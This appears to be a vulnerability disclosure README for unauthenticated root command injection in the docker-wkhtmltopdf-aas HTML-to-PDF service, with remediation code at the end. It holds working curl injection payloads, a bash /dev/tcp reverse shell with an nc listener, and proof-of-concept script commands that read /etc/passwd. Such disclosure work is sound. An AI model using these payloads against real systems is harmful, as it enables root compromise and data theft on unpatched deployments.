





# Remote Code Execution in docker-wkhtmltopdf-aas

## Overview

| Field | Value |
|-------|-------|
| **Vulnerability** | OS Command Injection |
| **Severity** | Critical (CVSS 9.8) |
| **CWE** | CWE-78 |
| **Target** | [openlabs/docker-wkhtmltopdf-aas](https://github.com/openlabs/docker-wkhtmltopdf-aas) |
| **Affected** | All versions (commit 9f50579) |
| **Authentication** | None required |
| **Execution** | Root (UID 0) |
| **CVE** | Pending |
| **Author** | [Jashid Sany](https://jashidsany.com) |
| **Disclosure** | [Issue #36](https://github.com/openlabs/docker-wkhtmltopdf-aas/issues/36) |

## Description

[docker-wkhtmltopdf-aas](https://github.com/openlabs/docker-wkhtmltopdf-aas) is a Dockerized web service (~100 stars, 94 forks, active Docker Hub image) that converts HTML to PDF using wkhtmltopdf.

The application accepts user-supplied options via JSON POST requests and concatenates them directly into a shell command string with no sanitization. The string is passed to the Python `executor` library's `execute()` function, which evaluates it via `bash -c`. A single unauthenticated HTTP request achieves remote code execution as root.

### Vulnerable Code (app.py, lines 48-59)

```python
args = ['wkhtmltopdf']

if options:
    for option, value in options.items():
        args.append('--%s' % option)
        if value:
            args.append('"%s"' % value)

args += [file_name, file_name + ".pdf"]

execute(' '.join(args))
```

## Setup

```bash
git clone https://github.com/jashidsany/docker-wkhtmltopdf-aas-rce.git
cd docker-wkhtmltopdf-aas-rce
docker build -f Dockerfile.poc -t wkhtmltopdf-vuln .
docker run -d -p 8080:80 --name wkhtmltopdf-test wkhtmltopdf-vuln
```

## Exploitation

### Vector A: $() Command Substitution in Option Value

```bash
curl -X POST -H "Content-Type: application/json" \
  -d '{"contents":"PGh0bWw+PGJvZHk+PGgxPkhlbGxvPC9oMT48L2JvZHk+PC9odG1sPgo=","options":{"margin-top":"$(id > /tmp/pwned.txt)"}}' \
  http://localhost:8080/

docker exec wkhtmltopdf-test cat /tmp/pwned.txt
# uid=0(root) gid=0(root) groups=0(root)
```

### Vector B: Semicolon Injection in Option Key

```bash
curl -X POST -H "Content-Type: application/json" \
  -d '{"contents":"PGh0bWw+PGJvZHk+PGgxPkhlbGxvPC9oMT48L2JvZHk+PC9odG1sPgo=","options":{"margin-top 0; id > /tmp/pwned2.txt;":""}}' \
  http://localhost:8080/

docker exec wkhtmltopdf-test cat /tmp/pwned2.txt
# uid=0(root) gid=0(root) groups=0(root)
```

### Reverse Shell

```bash
# Terminal 1
nc -lvnp 4444

# Terminal 2
curl -X POST -H "Content-Type: application/json" \
  -d '{"contents":"PGh0bWw+PGJvZHk+PGgxPkhlbGxvPC9oMT48L2JvZHk+PC9odG1sPgo=","options":{"margin-top":"$(bash -i >& /dev/tcp/172.17.0.1/4444 0>&1)"}}' \
  http://localhost:8080/
```

## PoC Script

```bash
pip install requests

# Check if vulnerable
python3 poc.py --target http://localhost:8080 --check

# Execute command
python3 poc.py -t http://localhost:8080 -c "id"

# Key injection method
python3 poc.py -t http://localhost:8080 -c "cat /etc/passwd" -m key

# Reverse shell
python3 poc.py -t http://localhost:8080 -r 172.17.0.1:4444
```

## Evidence

### RCE via $() Value Injection


### RCE via Key Injection


### /etc/passwd Exfiltration


### Full RCE Proof


### Reverse Shell as Root


## Impact

- Remote code execution as root, no authentication
- Data exfiltration (files, environment variables, secrets)
- Reverse shell access
- Lateral movement within Docker networks
- Container escape if running with elevated privileges

## Remediation

```python
import subprocess

ALLOWED_OPTIONS = {"margin-top", "margin-bottom", "margin-left", "margin-right",
                   "page-size", "orientation", "dpi", "page-width", "page-height"}

args = ['wkhtmltopdf']
if options:
    for option, value in options.items():
        if option not in ALLOWED_OPTIONS:
            continue
        args.append(f'--{option}')
        if value:
            args.append(str(value))

args += [file_name, file_name + '.pdf']
subprocess.run(args, check=True, timeout=60)
```

## Timeline

| Date | Action |
|------|--------|
| 2026-03-01 | Vulnerability discovered and confirmed |
| 2026-03-01 | [Issue #36](https://github.com/openlabs/docker-wkhtmltopdf-aas/issues/36) filed |
| 2026-03-01 | CVE requested from MITRE |
| 2026-03-01 | Public disclosure |

## References

- [Vulnerable Repository](https://github.com/openlabs/docker-wkhtmltopdf-aas)
- [Vulnerable Code](https://github.com/openlabs/docker-wkhtmltopdf-aas/blob/9f505797671c3339520dec5fc01dff3a6f324f2e/app.py#L40)
- [Docker Hub Image](https://hub.docker.com/r/openlabs/docker-wkhtmltopdf-aas)
- [Disclosure Issue](https://github.com/openlabs/docker-wkhtmltopdf-aas/issues/36)

## Disclaimer

This PoC is provided for educational and authorized security testing purposes only. Do not use against systems you do not own or have explicit permission to test.
